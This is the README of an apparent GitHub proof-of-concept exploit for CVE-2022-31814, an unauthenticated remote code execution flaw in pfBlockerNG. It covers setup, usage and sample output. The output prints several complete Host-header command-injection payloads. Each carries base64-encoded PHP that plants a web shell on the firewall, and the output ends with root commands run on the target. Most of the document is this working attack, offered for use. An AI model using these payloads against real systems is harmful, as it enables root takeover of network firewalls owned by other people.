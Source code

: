 # CVE-2022-31814

Updated Exploit - pfBlockerNG &lt;= 2.1.4_26 Unauth RCE (CVE-2022-31814)


## Description

This script is a proof-of-concept exploit for pfBlockerNG <= 2.1.4_26 that allows for remote code execution. It takes a single target URL or a list of URLs, tries to upload a shell using multiple payloads, executes a command, and then deletes the shell.


## Requirements

This script requires Python 3.x and the request module to be installed. You can install these modules by running:

```bash
pip3 install requests
```

or

```bash
pip3 install -r requirements.txt
```

## Usage 

```bash
usage: CVE-2022-31814.py [-h] --url URL

pfBlockerNG <= 2.1.4_26 Unauth RCE

options:
  -h, --help  show this help message and exit
  --url URL   Full URL and port e.g.: https://10.10.10.10:443/
```

## Exploit Execution


```bash
python3 CVE-2022-31814.py --url "https://10.10.10.10:443/"
```

## Output

```
[+] pfBlockerNG is installed
[/] Uploading shell...
[+] Testing Payload: {'Host': "' *; echo 'PD8kYT1mb3BlbigiL3Vzci9sb2NhbC93d3cvc3lzdGVtX2FkdmFuY2VkX2NvbnRyb2wucGhwIiwidyIpIG9yIGRpZSgpOyR0PSc8P3BocCBwcmludChwYXNzdGhydSggJF9HRVRbImMiXSkpOz8+Jztmd3JpdGUoJGEsJHQpO2ZjbG9zZSggJGEpOz8+'|python3.8 -m base64 -d | php; '"}
[+] Testing Payload: {'Host': "' *; echo 'PD8kYT1mb3BlbigiL3Vzci9sb2NhbC93d3cvc3lzdGVtX2FkdmFuY2VkX2NvbnRyb2wucGhwIiwidyIpIG9yIGRpZSgpOyR0PSc8P3BocCBwcmludChwYXNzdGhydSggJF9HRVRbImMiXSkpOz8+Jztmd3JpdGUoJGEsJHQpO2ZjbG9zZSggJGEpOz8+'|python3 -m base64 -d | php; '"}
[+] Testing Payload: {'Host': "' *; echo 'PD8kYT1mb3BlbigiL3Vzci9sb2NhbC93d3cvc3lzdGVtX2FkdmFuY2VkX2NvbnRyb2wucGhwIiwidyIpIG9yIGRpZSgpOyR0PSc8P3BocCBwcmludChwYXNzdGhydSggJF9HRVRbImMiXSkpOz8+Jztmd3JpdGUoJGEsJHQpO2ZjbG9zZSggJGEpOz8+'|python2 -m base64 -d | php; '"}
[+] Testing Payload: {'Host': "' *; echo 'PD8kYT1mb3BlbigiL3Vzci9sb2NhbC93d3cvc3lzdGVtX2FkdmFuY2VkX2NvbnRyb2wucGhwIiwidyIpIG9yIGRpZSgpOyR0PSc8P3BocCBwcmludChwYXNzdGhydSggJF9HRVRbImMiXSkpOz8+Jztmd3JpdGUoJGEsJHQpO2ZjbG9zZSggJGEpOz8+'|python -m base64 -d | php; '"}
[+] Testing Payload: {'Host': "' *; echo 'PD8kYT1mb3BlbigiL3Vzci9sb2NhbC93d3cvc3lzdGVtX2FkdmFuY2VkX2NvbnRyb2wucGhwIiwidyIpIG9yIGRpZSgpOyR0PSc8P3BocCBlY2hvKHBhc3N0aHJ1KCAkX0dFVFsiYyJdKSk7Pz4nO2Z3cml0ZSgkYSwkdCk7ZmNsb3NlKCAkYSk7Pz4='|python -m base64 -d | php; '"}
[+] Testing Payload: {'Host': "' *; echo 'PD8kYT1mb3BlbigiL3Vzci9sb2NhbC93d3cvc3lzdGVtX2FkdmFuY2VkX2NvbnRyb2wucGhwIiwidyIpIG9yIGRpZSgpOyR0PSc8P3BocCBlY2hvKHBhc3N0aHJ1KCAkX0dFVFsiYyJdKSk7Pz4nO2Z3cml0ZSgkYSwkdCk7ZmNsb3NlKCAkYSk7Pz4='|python3 -m base64 -d | php; '"}
[+] Testing Payload: {'Host': "' *; echo 'PD8kYT1mb3BlbigiL3Vzci9sb2NhbC93d3cvc3lzdGVtX2FkdmFuY2VkX2NvbnRyb2wucGhwIiwidyIpIG9yIGRpZSgpOyR0PSc8P3BocCBlY2hvKHBhc3N0aHJ1KCAkX0dFVFsiYyJdKSk7Pz4nO2Z3cml0ZSgkYSwkdCk7ZmNsb3NlKCAkYSk7Pz4='|python2 -m base64 -d | php; '"}
[+] Testing Payload: {'Host': "' *; echo 'PD8kYT1mb3BlbigiL3Vzci9sb2NhbC93d3cvc3lzdGVtX2FkdmFuY2VkX2NvbnRyb2wucGhwIiwidyIpIG9yIGRpZSgpOyR0PSc8P3BocCBlY2hvKHBhc3N0aHJ1KCAkX0dFVFsiYyJdKSk7Pz4nO2Z3cml0ZSgkYSwkdCk7ZmNsb3NlKCAkYSk7Pz4='|python3.8 -m base64 -d | php; '"}
[+] Upload succeeded
# id 
uid=0(root) gid=0(wheel) groups=0(wheel)

# whoami
root

# ^C[+] Shell deleted
```
